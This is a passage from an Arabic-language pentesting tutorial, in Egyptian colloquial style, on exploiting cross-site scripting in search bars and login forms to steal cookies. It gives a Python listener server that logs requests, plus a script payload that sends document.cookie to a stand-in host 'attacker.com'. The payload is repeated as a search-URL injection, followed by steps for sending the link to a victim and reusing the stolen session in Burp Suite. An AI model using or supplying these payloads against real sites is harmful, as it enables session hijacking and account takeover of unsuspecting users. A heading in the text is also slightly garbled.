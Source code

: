 
#### **الخطوة 3: إعداد سي Boarding لاستقبال البيانات**
عشان تستغل الثغرة بجد (زي سرقة الكوكيز)، لازم يكون عندك سيرفر جاهز.

1. **إعداد سيرفر بسيط بـ Python:**
   - اكتب سكربت:
     ```python
     from http.server import HTTPServer, BaseHTTPRequestHandler

     class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
         def do_GET(self):
             self.send_response(200)
             self.end_headers()
             print(f"Received: {self.path}")
             self.wfile.write(b"Data received!")

     httpd = HTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
     httpd.serve_forever()
     ```
   - شغّل السيرفر:
     ```
     python3 server.py
     ```

2. **استخدام Payload لإرسال البيانات:**
   - Payload:
     ```html
     <script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - في حقل البحث:
     ```
     example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```

3. **اختبار الاستغلال:**
   - ادخل الـ Payload في حقل البحث، فورم اللوجن، أو الـ URL.
   - لو المستخدم دخّل البيانات، هتشوف الكوكيز في السيرفر بتاعك.

---

**خلاصة بالعامية:**
السيرفر زي المخزن اللي بيلمّ الغنيمة. لما الكود الخبيث يشتغل في متصفح الضحية، هيبعتلك البيانات زي الكوكيز، وانت كده مسكت الخيط.

---

### **3. السيناريوهات الممكنة لاستغلال Search Bars, Error Messages, وLogin Forms**
كـ **Pentester**، هنا كل الطرق اللي ممكن تستغل بيها الثغرات دي:

1. **سرقة الكوكيز (Session Hijacking):**
   - **الوصف**: تستغل حقل البحث أو فورم اللوجن عشان تسرق الكوكيز وتدخل على حساب الضحية.
   - **Payload**:
     ```html
     <script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - **مثال**:
     ```
     example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - **الخطوات**:
     1. ابعت الرابط أو حط الـ Payload في حقل البحث.
     2. لما الضحية تفتح الرابط أو تبحث، الكوكيز هتبعت لسيرفرك.
     3. استخدم الكوكيز في Burp Suite عشان تدخل على الحساب.
